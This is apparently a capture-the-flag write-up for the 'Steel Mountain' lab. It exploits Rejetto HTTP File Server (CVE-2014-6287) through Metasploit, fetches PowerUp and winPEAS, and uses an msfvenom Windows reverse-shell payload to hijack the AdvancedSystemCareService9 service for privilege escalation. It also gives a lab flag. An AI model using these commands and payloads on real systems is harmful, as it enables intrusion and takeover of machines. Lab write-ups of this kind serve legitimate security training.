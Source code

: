 name : Bill Harper
other port running on http server : 8080
Rejetto HTTP File Server
search that server on exploit.db -> CVE 2014-6287 

using metaploit -> search 2014-6287  -> set up and run exploit.
move the directory mention -> dir to list all the file -> type 'file name ' to execute the content -> `b04763b6fcf51fcd7c13abc7db4fd365`
download script : wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
this scirpt use to evaluate a Windows machine and determine any abnormalities.

back to meterpreter and upload the script `upload /home/kali/Downloads/THM/Steel_Mountain/PowerUp.ps1`
loading powershell and open : `load power shell ` `powershell_shell`
following the command mentions -> `AdvancedSystemCareService9`

create a payload : `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.85.62 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
then upload to meterpreter.( need move to  'C:\Program Files (x86)\IObit\')

move then restart the server :

sc stop AdvancedSystemCareService9

sc start AdvancedSystemCareService9

file root.txt is located in : `c:\users\administrator\desktop\`

download file https://www.exploit-db.com/exploits/39161 and change tun0 ip.

downloasd winPEAS : wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/a17f91745cafc5fa43a428d766294190c0ff70a1/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe

